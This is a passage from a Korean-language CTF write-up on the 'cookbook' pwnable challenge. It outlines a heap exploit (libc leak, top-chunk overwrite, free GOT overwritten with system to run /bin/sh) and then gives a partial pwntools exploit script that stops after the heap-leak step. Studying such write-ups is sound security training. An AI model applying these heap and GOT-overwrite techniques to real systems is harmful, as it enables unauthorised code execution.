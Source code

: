 3. `libc_leak`

4. `overwrite_TOP_chunk`

5. `free_got`, `TOP_chunk` 등의 주소를 가지고 계산한 값으로 `malloc`

6. `free_got`를 `system`으로 덮음

7. `main_menu`를 종료하면 `free("/bin/sh\0")` 실행

- - -
# 0x03. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "cookbook.bostonkey.party"
PORT = 4444
#PORT = 5000

s = remote(HOST, PORT)
pause()

elf = ELF("./cookbook")
libc = ELF("./libc-2.23.so")

puts_plt = elf.plt["puts"]
free_got = elf.got["free"]
calloc_got = elf.got["calloc"]

calloc_off = libc.symbols["calloc"]
system_off = libc.symbols["system"]

def func_ingredient(func):
    s.recvuntil("[q]uit\n")
    s.sendline("a")

    s.recvuntil("[e]xport saving changes (doesn't quit)?\n")
    s.sendline(func)

    s.recvuntil("[e]xport saving changes (doesn't quit)?\n")
    s.sendline("q")

def func_recipe(func):
    s.recvuntil("[q]uit\n")
    s.sendline("c")

    s.recvuntil("[q]uit\n")
    s.sendline(func)

    s.recvuntil("[q]uit\n")
    s.sendline("q")

s.recvuntil("what's your name?\n")
s.sendline("/bin/sh\0") # name

func_recipe("n")
func_ingredient("n")
func_recipe("d")

# heap_leak
s.recvuntil("[q]uit\n")
s.sendline("c")
```